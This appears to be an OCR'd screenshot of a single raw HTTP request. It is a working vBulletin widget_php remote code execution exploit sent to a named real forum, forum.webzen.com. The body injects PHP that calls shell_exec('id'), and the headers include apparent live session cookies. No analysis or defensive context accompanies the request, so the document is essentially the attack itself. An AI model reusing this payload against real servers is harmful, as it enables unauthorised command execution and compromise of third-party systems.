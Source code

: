 

> POST /index.php?routestring=ajax/render/widget_php HTTP/1.1 Host:
> forum.webzen.com Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0
> (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
> Chrome/76.0.3809.132 Safari/537.36 Accept:
> text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
> Referer: http://forum.webzen.com/ Accept-Encoding: gzip, deflate
> Accept-Language: ar,en-US;q=0.9,en;q=0.8,th;q=0.7,fr;q=0.6,ru;q=0.5
> Cookie: vbwebzensessionhash=da9a25bcd0c2321558473f67a6e5a295;
> vbwebzenlastvisit=1569424662; vbwebzenlanguageid=1;
> PHPSESSID=ugtppbn8bt0i7kknpu57vjfsl5; vbwebzenuserstyleid=1;
> vbwebzenlastactivity=1569424665; _ga=GA1.2.1198144153.1569424664;
> _gid=GA1.2.1701724512.1569424664; __qca=P0-1005232971-1569424664125; vbwebzenlastactivity=1569426167; _dc_gtm_UA-50716969-1=1;
> CurrentCulture=pl-PL Connection: close Content-Length: 48
> 
> 
> widgetConfig[code]=echo shell_exec('id');exit;
